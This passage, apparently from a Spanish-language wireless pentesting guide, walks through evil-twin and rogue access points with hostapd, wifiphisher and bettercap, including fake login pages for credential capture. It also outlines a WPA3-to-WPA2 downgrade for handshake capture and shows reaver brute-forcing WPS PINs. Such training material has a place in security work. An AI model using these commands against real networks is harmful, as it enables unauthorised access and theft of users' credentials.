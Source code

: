 Usando `hostapd`:

```bash
sudo hostapd hostapd.conf
```

Ejemplo `hostapd.conf`:

```plaintext
interface=wlan1
driver=nl80211
ssid=MiRedWiFi
hw_mode=g
channel=6
```

Con `wifiphisher`:

```bash
sudo wifiphisher
```

Permite clonar el AP y redirigir a la víctima a una página falsa de login.

---

## 14.7. WPA3 Cracking con Downgrade

Aunque WPA3 es más seguro, puede ser vulnerado si el dispositivo víctima soporta **modo mixto WPA2/WPA3**:

1. Configurar un AP falso WPA2.
2. Forzar desautenticación de la víctima WPA3.
3. La víctima se conecta al AP WPA2 falso, donde se captura el handshake.

---

## 14.8. Ataques WPS

Si el router tiene WPS activado:

```bash
sudo reaver -i wlan1mon -b 00:11:22:33:44:55 -vv
```

Esto intenta PINs por fuerza bruta.

---

## 14.9. Rogue AP + Captura de Credenciales

Usando `bettercap`:

```bash
sudo bettercap -iface wlan1
set wifi.ap.ssid MiRedWiFi
wifi.recon on
wifi.ap on
```
